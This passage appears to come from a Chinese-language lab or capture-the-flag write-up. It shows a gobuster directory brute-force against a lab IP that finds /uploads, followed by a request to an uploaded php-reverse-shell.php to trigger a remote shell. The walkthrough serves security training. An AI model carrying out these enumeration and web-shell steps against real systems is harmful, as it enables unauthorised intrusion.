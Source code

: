 ![image-20230613194842319](图片/image-20230613194842319.png)



上传了。现在我们可能需要对目录进行暴力破解，以便找到存储上传文件的文件夹，但我们也可以猜测它。比如说uploads。我们通过运行`gobuster`工具来确认这一点

```
gobuster dir  -u http://10.129.184.110   -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

![image-20230613200029726](图片/image-20230613200029726.png)

`gobuster`立即找到了/uploads目录。我们没有访问目录的权限，但是我们可以尝试访问我们上传的文件。

```
http://10.129.184.110/uploads/php-reverse-shell.php
```
